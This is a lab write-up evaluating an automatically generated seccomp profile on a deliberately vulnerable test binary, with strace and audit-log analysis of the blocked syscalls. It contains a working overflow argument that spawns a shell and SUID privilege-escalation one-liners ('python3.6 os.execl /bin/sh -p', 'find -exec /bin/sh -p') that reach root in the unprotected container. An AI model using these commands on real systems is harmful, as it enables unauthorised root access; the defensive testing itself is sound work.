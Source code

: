 ## custom – chestnut

### Preparation

_For the container with seccomp, we execute the file `/tmp/script.sh` which is extracting the system calls from the binary `custom_app`, creating a seccomp-profile based on these detected system calls and subsequently applying the profile on the binary. Afterwards, the binary is automatically run._

```bash
docker exec -it custom-chestnut-seccomp-container bash -c "source /Chestnut/Binalyzer/venv/bin/activate && /tmp/script.sh"
```

_For the container without seccomp, we just have to start it with following command:_

```bash
docker exec -it custom-chestnut-normal-container bash
```

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                          COMMAND                  CREATED             STATUS             PORTS                                                   NAMES
b20881c64b5f   custom-chestnut-seccomp        "/bin/bash"              2 minutes ago       Up 2 minutes                                                               custom-chestnut-seccomp-container
920b0d9b8bfa   custom-chestnut-normal         "/bin/bash"              2 minutes ago       Up 2 minutes                                                               custom-chestnut-normal-container
```

_Seccomp_:

The attack on the container with the applied seccomp profile fails:

```
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/bin/sh]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh]
/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   117 Bad system call         (core dumped) LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/usr/bin/python3.6]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6]
/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   120 Bad system call         (core dumped) LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/usr/bin/find]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find]
/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   123 Bad system call         (core dumped) LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/bin/pwd]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd]
/Chestnut/ChestnutPatcher
```

The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
(venv) user@590efaa20062:/app$ ./custom_app  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
locals.path = [/bin/sh]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh]
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1000(user) gid=1000(user) groups=1000(user)
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ true
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ uname
Linux
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ /usr/bin/python3.6 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ /usr/bin/find . -exec /bin/sh -p \; -quit
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the application with the command `strace -f /app/custom_app` we are able to see that just before the processes were killed with the signal `SIGSYS`, the system call `getuid` and `set_tid_address` were executed.

```
# /bin/sh execution
...
[pid   136] munmap(0x7ffff7ff1000, 18864) = 0
[pid   136] getuid()                    = 102
[pid   136] +++ killed by SIGSYS (core dumped) +++


# /usr/bin/python3.6 execution
...
[pid   141] munmap(0x7ffff7ff1000, 18864) = 0
[pid   141] set_tid_address(0x7ffff7feaa10) = 218
[pid   141] +++ killed by SIGSYS (core dumped) +++

# /usr/bin/find execution
...
[pid   151] munmap(0x7ffff7ff1000, 18864) = 0
[pid   151] set_tid_address(0x7ffff7feaad0) = 218
[pid   151] +++ killed by SIGSYS (core dumped) +++

# /usr/bin/id execution
[pid   156] munmap(0x7ffff7ff1000, 18864) = 0
[pid   156] set_tid_address(0x7ffff7fee310) = 218
[pid   156] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscall with the number 108 was indeed blocked by seccomp

```
❯ sudo ausearch -m seccomp --start today
# /bin/sh execution
time->Thu May  1 12:53:48 2025
type=SECCOMP msg=audit(1746096828.843:2699): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=140679 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=102 compat=0 ip=0x7ffff7ac7837 code=0x0

# /usr/bin/python3.6 execution
time->Thu May  1 12:53:52 2025
type=SECCOMP msg=audit(1746096832.059:2709): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=140693 comm="python3.6" exe="/usr/bin/python3.6" sig=31 arch=c000003e syscall=218 compat=0 ip=0x7ffff77c8eb5 code=0x0

# /usr/bin/find execution
time->Thu May  1 12:53:54 2025
type=SECCOMP msg=audit(1746096834.240:2719): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=140727 comm="find" exe="/usr/bin/find" sig=31 arch=c000003e syscall=218 compat=0 ip=0x7ffff6d8deb5 code=0x0

# /usr/bin/id execution
time->Thu May  1 13:00:58 2025
type=SECCOMP msg=audit(1746097258.719:2794): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=144107 comm="id" exe="/usr/bin/id" sig=31 arch=c000003e syscall=218 compat=0 ip=0x7ffff712beb5 code=0x0
```

We verify that the system call number `218` maps to `set_tid_address` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 102
102	getuid
❯ ausyscall --dump | grep 218
218	set_tid_address
```

The last thing we check is, if the system call numbers `102` and `218` were in the applied seccomp profile. The file `/Chestnut/ChestnutPatcher/policy__app_custom_app.json ` shows no presence:

```json
{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 8, 9, 10, 11, 12, 13, 14, 15, 20, 21, 38, 39, 60, 62, 63,
    72, 78, 79, 89, 158, 186, 202, 231, 234, 257, 262, 59, 59, 221
  ]
}
```

## Appendix

### Analysis Time

The following shows the time needed to extract the system calls from 3 runs:

```
docker exec -it custom-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/custom_app"
...
real	0m25.667s
user	0m24.341s
sys	0m1.184s

docker exec -it custom-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/custom_app"
...
real	0m25.976s
user	0m24.811s
sys	0m1.048s

docker exec -it custom-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/custom_app"
...
real	0m25.985s
user	0m24.805s
sys	0m1.072s
```

`(25,667+25,976+25,985)/3=25,876`

### Missing system calls

Following system calls are not detected by Binalyzers, but needed for the application to start successfully, therefore we added these two to the seccomp-profile `/Chestnut/ChestnutPatcher/policy__app_custom_app.json`. This is not Binalyzers fault for not recognising the required system call, but rather a side-effect of the application logic calling a binary outside the application.

- 59 (execve)
- 221 (fadvice64)

```
sed -i '/"syscalls"/ s/\]/, 59, 221]/' /Chestnut/ChestnutPatcher/policy__app_custom_app.json
```

### Number of System Calls

```
echo '{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 8, 9, 10, 11, 12, 13, 14, 15, 20, 21, 38, 39, 60, 62, 63,
    72, 78, 79, 89, 158, 186, 202, 231, 234, 257, 262
  ]
}' | jq -r ".syscalls | length"
32
```

